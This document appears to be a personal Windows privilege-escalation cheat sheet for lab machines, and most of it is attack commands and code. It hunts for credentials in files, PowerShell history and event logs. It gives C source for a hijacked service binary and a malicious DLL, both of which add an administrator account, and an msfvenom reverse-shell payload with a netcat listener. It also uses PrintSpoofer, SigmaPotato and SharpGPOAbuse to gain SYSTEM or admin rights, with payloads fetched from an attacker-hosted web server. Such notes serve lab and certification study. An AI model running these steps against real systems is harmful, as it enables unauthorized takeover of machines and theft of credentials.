# Windows Enumeration

```bash
# Typical Items to be Enumerated:

# Username and hostname
whoami /priv

# Group memberships of the current user

whoami /groups

# Existing users and groups

powershell
Get-LocalUser
Get-LocalGroup

# If not using powershell, use net localgroup
# With group names, you can enumerate members of those groups:

Get-LocalGroupMember <GROUP NAME>
Get-LocalGroupMember adminteam

# Operating system, version and architecture

systeminfo

# Network information

ipconfig /all
route print
netstat -ano

# Installed applications

#32 bit apps
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

#64 bit apps
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

#Running processes

Get-Process
```
# Finding Files
```bash
# Always search for password files, and even database files. These can be narrowed down based on the installed applications query mentioned above. For example, if KeyPass was present, you would search for a .kdbx file.

#KeyPass Database File
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

#XAMPP Config File
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue

#Password file in Users Directory
Get-ChildItem -Path C:\Users -Include *.log,*.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue

type C:\xampp\mysql\bin\my.ini

# Search for files on current users (dave) home director
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

# Using Runas (Need username/password and GUI)
```bash
runas /user:USERNAME cmd

#Example
runas /user:backupadmin cmd
#Insert Password
```

# Information Gathering with Powershell

```bash
# PowerShell history
Get-History

# History from PSReadline
(Get-PSReadlineOption).HistorySavePath
```

## PSRemoting with Alternate Credentials (Must have username/password) (Same thing as WinRM)

```bash
#Agnostic Commands
$password = ConvertTo-SecureString "PASSWORD" -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential("USERNAME", $password)

Enter-PSSession -ComputerName TARGET_HOSTNAME_OR_IP -Credential $cred

whoami

#Example commands
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)

Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred

whoami

# Or Log in via EvilWinRM
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"

```

# Event View Logs for potential passwords

```bash
# Log in via RDP
# Navigate here:
Applications and Services Logs > Microsoft > Windows > PowerShell > Operational

# In the Event ID box type 4104 — that's the Script Block Logging event ID

# Powershell Command Examples of doing the same thing above:
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | Where-Object {$_.Id -eq 4104} | Select-Object -ExpandProperty Message

#Password Events
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | Where-Object {$_.Id -eq 4104 -and $_.Message -like "*SecureString*"} | Select-Object -ExpandProperty Message

# Credential Object
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | Where-Object {$_.Id -eq 4104 -and $_.Message -like "*PSCredential*"} | Select-Object -ExpandProperty Message
```


# Automated Enumeration via WinPEAS

```bash
#Agnostic Command
iwr -uri http://YOUR IP/winPEASx64.exe -Outfile winPEAS.exe

#Example
iwr -uri http://192.168.45.227/winPEASx64.exe -Outfile winPEAS.ex e

# Run it
.\winPEAS.exe

# Look at `Users` section
# Looking for possible password files in users homes 
```



# Automated Enumeration via Seatbelt.exe

```bash

iwr -uri http://YOUR IP/Seatbelt.exe -Outfile Seatbelt.exe

iwr -uri http://192.168.45.227/Seatbelt.exe -Outfile Seatbelt.exe

# Run it
# This provides all the commands you can run
.\Seatbelt.exe

#Example
.\Seatbelt.exe -group=all
```
# Leveraging Windows Services
```bash
- Hijack service binaries
- Hijack service DLLs
- Abuse Unquoted service paths
```
## Service Binary Hijacking

```bash
#NOTE: When using a network logon such as WinRM or a bind shell, Get-CimInstance and Get-Service will result in a "permission denied" error when querying for services with a non-administrative user. Using an interactive logon such as RDP solves this problem.

# RDP Login example:
xfreerdp3 /v:192.168.109.220 /u:dave /p:lab /cert:ignore +clipboard +fonts +compression /dynamic-resolution /drive:tools,/home/kali/tools

#Load Powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}


```


```bash
# Permission Enumeration
# Look for something out of the ordinary

# enumerate the permissions

Mask	Permissions
F	    Full access
M	    Modify access
RX	    Read and execute access
R	    Read-only access
W	    Write-only access

#Permission Enumeration

icacls "C:\xampp\apache\bin\httpd.exe"

# REFER TO SCREENSHOT: Our user `Dave` has on Read and Execute (RX) privs, we cannot replace the file with a malicious binary. Move on to next file if applicable.

```


```bash
icacls "C:\xampp\mysql\bin\mysqld.exe"


C:\xampp\mysql\bin\mysqld.exe BUILTIN\Administrators:(F)
                              NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Users:(F)

Successfully processed 1 files; Failed processing 0 files
PS C:\Users\dave>

#  Full Access (F) permission, allowing us to write to and modify the binary and therefore, replace it.
```


## Create a Binary to create a users, and add him to `Administrators` group

```bash

#On Kali - Call it adduser.c

#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```


## cross-compile the code

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe

#NOTE: Now we can transfer it to our target and replace the original mysqld.exe binary with our malicious copy

# start a Python3 web server in the output directory of 
adduser.exe

# Python Server on Kali Machine
python3 -m http.server 80

# Transfer File
iwr -uri http://KALI IP/adduser.exe -Outfile adduser.exe

#Example Command
iwr -uri http://192.168.48.3/adduser.exe -Outfile adduser.exe

#Move the file that we are replacing out of its location to your current working directory (Back up the legitimate executable)
move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

# Move the new malicious file to the correct location (Renames your malicious adduser.exe to mysqld.exe and drops it in place of the real one)
#Example:
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe

#NOTE: To execute the binary through the service, we need to restart it

# Stop the service
net stop mysql

# Restart if possible
net start mysql

#NOTE: If you get `ACCESS DENIED`, consider retarting the machine. 1st: Check if service AUTO starts on restart. 2nd: Check if current user has privs.

#1st step:
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

#Results
Name  StartMode
----  ---------
mysql Auto

#2nd Step:
whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeSecurityPrivilege           Manage auditing and security log     Disabled
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

#Issue Reboot Command
shutdown /r /t 0

#See if Attack Worked
Get-LocalGroupMember administrators

#Results
ObjectClass Name                      PrincipalSource
----------- ----                      ---------------
User        CLIENTWK220\Administrator Local
User        CLIENTWK220\BackupAdmin   Local
User        CLIENTWK220\dave2         Local
User        CLIENTWK220\daveadmin     Local
User        CLIENTWK220\offsec        Local

# Log in as user via RDP, WinRM or whatever service is available.
#RunAs Example
runas /user:dave2 cmd.exe

```
## Create Reverse Shell instead of new user
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_KALI_IP LPORT=4444 -f exe -o mysqld.exe

# Or use revshells `Powershell #3 (base64)
# Compile this script
#include <stdlib.h>
int main() {
  system("powershell -e BASE64PAYLOADHERE");
  return 0;
}
# Compile it:
x86_64-w64-mingw32-gcc adduser.c -o mysqld.exe

# Replace the file with the steps above, and restart service or system.

# Start Listener

nc -nvlp 4444
```
## Automate finding a potential file for Service Binary Hijacking

```bash

#Host Python server with file
python3 -m http.server 80

# Transfer File
iwr -uri http://192.168.45.227/PowerUp.ps1 -Outfile PowerUp.ps1

# Run powershell with -ep bypass
powershell -ep bypass

# Run file
. .\PowerUp.ps1

# See potentially modifiable files
Get-ModifiableServiceFile
```

# DLL Hijacking

## Step 1: Enumerate Installed Applications
```bash
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

#Results
displayname
-----------

FileZilla 3.63.1
KeePass Password Safe 2.51.1
Microsoft Edge

Microsoft Edge WebView2 Runtime

Microsoft Visual C++ 2015-2019 Redistributable (x86) - 14.28.29913
Microsoft Visual C++ 2019 X86 Additional Runtime - 14.28.29913
Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.28.29913
Microsoft Visual C++ 2015-2019 Redistributable (x64) - 14.28.29913

# Check Process Monitor For running Processes
```


## Step 2: Determine if we are able to write files to target file directory

```bash

# Determine the file directory to test:
Get-ChildItem -Path C:\ -Filter "filezilla.exe" -Recurse -ErrorAction SilentlyContinue

# Or manually Look

# Results

    Directory: C:\FileZilla\FileZilla FTP Client


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/26/2023   4:33 AM        4222024 filezilla.exe

# Create Test File with Text
echo "test" > 'C:\FileZilla\FileZilla FTP Client\test.txt'

type 'C:\FileZilla\FileZilla FTP Client\test.txt'

# Success
```

## Step 3: Load ProcMon (Process Monitor)

```bash
# Step 1: Create Filter
```

```bash
# Step 2: Clear Events for fresh start. After basic results start appearing. Look for "operation" CreateFile. It is responsible for not only creating files but also accessing existing files. Create a filter:
```

```bash
# Step 3: Create .dll filter under "Path"
```


```bash
# Look for a file path we found earlier `C:\FileZilla\FileZilla FTP Client` (Where we confirmed we have `Write Access`) and an operation where CreateFile is being conducted, along with a CreateFile in the System32 location.

# Results: TextShaping.dll
```


## Step 4: Create .dll file to add a user to Administrators Group

```bash

# Create File
sudo nano TextShapping.cpp

# Script Context

#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```


## Step 5: Compile Code and transfer it over
```bash
x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll

# Transfer File
python3 -m http.server 80

iwr -uri http://192.168.45.227/TextShaping.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
```

## Step 6: Check if new user was created

```bash
net user


#Results
User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave3                    daveadmin                DefaultAccount
Guest                    offsec                   steve
WDAGUtilityAccount
The command completed successfully.
```
## Step 7: Log in as new user
```bash
 runas /user:dave3 cmd
 #Password
 ```

# Unquoted Service Paths

## Step 1: Enumerate Running/Stopped Services

```bash
Get-CimInstance -ClassName win32_service | Select Name,State,PathName

# Identify any unquoted service binary paths that contain multiple spaces.

#Example: C:\Program Files\Enterprise Apps\Current
# There is a space in Program Files and Enterprise Apps.
# In this Example this is the list of vulnerable paths:
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe

# Before proceeding, check if you have the authority to Start/Stop a service.
Start-Service GammaService
Stop-Service GammaService

```

## Step 2:  Check our access rights in these paths with icacls
```bash
icacls "C:\"

# Do you have Write Privs? If not continue looking deeper in files paths.

icacls "C:\Program Files\Enterprise Apps"

#Results

C:\Program Files\Enterprise Apps NT SERVICE\TrustedInstaller:(CI)(F)
                                 NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                                 BUILTIN\Administrators:(OI)(CI)(F)
                                 BUILTIN\Users:(OI)(CI)(RX,W)
                                 CREATOR OWNER:(OI)(CI)(IO)(F)
                                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(RX)
                                 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files

# We have Write (W) Privs on this folder. So we can put our malicious .exe file

```

## Step 3: Reuse "Service Binary Hijacking" C Code file to add user to Administrators group.

```bash
# Rename file to match .exe filename
# Transfer it over and put into correct file location

Start-Service GammaService

# Check if your user was created
net localgroup administrators

```

# Scheduled Tasks

```bash
schtasks /query /fo LIST /v

# Results
Folder: \Microsoft
HostName:                             CLIENTWK220
TaskName:                             \Microsoft\CacheCleanup
Next Run Time:                        7/11/2022 2:47:21 AM
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        7/11/2022 2:46:22 AM
Last Result:                          0
Author:                               CLIENTWK220\daveadmin
Task To Run:                          C:\Users\steve\Pictures\BackendCacheCleanup.exe
Start In:                             C:\Users\steve\Pictures
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode
Run As User:                          daveadmin
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: Disabled
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        One Time Only, Minute
Start Time:                           7:37:21 AM
Start Date:                           7/4/2022
...

# the task was created by daveadmin and the specified action is to execute BackendCacheCleanup.exe in the Pictures home directory of steve.

# Check Permissions
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe

# Results
C:\Users\steve\Pictures\BackendCacheCleanup.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                BUILTIN\Administrators:(I)(F)
                                                CLIENTWK220\steve:(I)(F)
                                                CLIENTWK220\offsec:(I)(F)

# Once again, follow the Service Binary Hijacking path to create and implement an .exe to replace it.

```

# Using Exploits

```bash

# Always check your pivs
whoami /priv

# Check System info
systeminfo

# check security patches installed
Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }

# Check for exploits for Kernal Version/Windows Version

# Exploit found at: https://github.com/sickn3ss/exploits/tree/master/CVE-2023-29360/x64/Release

# Download and run it:
.\CVE-2023-29360.exe

# Elevated Privs
```

# SeImpersonatePrivilege (Check out Potato Family & Printspoofer at:)
https://github.com/itm4n/PrintSpoofer
https://jlajara.gitlab.io/Potatoes_Windows_Privesc
```bash
# SigmaPotato (Allows you to execute commands in the context of NT AUTHORITY\SYSTEM. )
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
```
## SeImpersonatePrivilege | SigmaPotato Example
## Check Privs
```bash
whoami /priv
```


## Transfer File over

```bash
# Host File
python3 -m http.server 80

# Load Powershell on Target Machine
iwr -uri http://192.168.45.227/SigmaPotato.exe -OutFile SigmaPotato.exe

# Run SingmaPotato to create a new user and add it to Administrator Group

.\SigmaPotato "net user dave4 lab /add"
```


## SeImpersonatePrivilege | PrintSpoofer Example

```bash
# SeImpersonatePrivilege Identified
# Lets try PrintSpoofer.exe
# Transfer File
certutil -urlcache -f http://192.168.45.244/PrintSpoofer.exe C:\Users\Public\Documents\PrintSpoofer.exe

# Run it:
.\PrintSpoofer.exe -i -c cmd

# Or
.\PrintSpoofer.exe -i -c powershell.exe

# NT AUTH/System Achieved

# Alternate Commands if the above failed 
# Create User (Skip to next step if not nessessary)
.\PrintSpoofer64.exe -i -c "cmd /c net user hacker Password123! /add"
# Add to administrators group (Add current user OR new user)
.\PrintSpoofer64.exe -i -c "cmd /c net localgroup administrators hacker /add"
# Enable RDP (Optional)
.\PrintSpoofer64.exe -i -c "cmd /c reg add ""HKLM\System\CurrentControlSet\Control\Terminal Server"" /v fDenyTSConnections /t REG_DWORD /d 0 /f"
# Grab proof.txt (Abuse privs)
.\PrintSpoofer64.exe -i -c "cmd /c type C:\Users\Administrator\Desktop\proof.txt > C:\Users\eric.wallows\Documents\proof.txt"


```

# WriteDacl



```bash
# Upload to Evil-WinRM Session
upload SharpGPOAbuse.exe

# Run it
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount charlotte --GPOName "Default Domain Policy"

# Force Update group policy
gpupdate /force

# Reload Evil-WinRM Session with elevated privs
```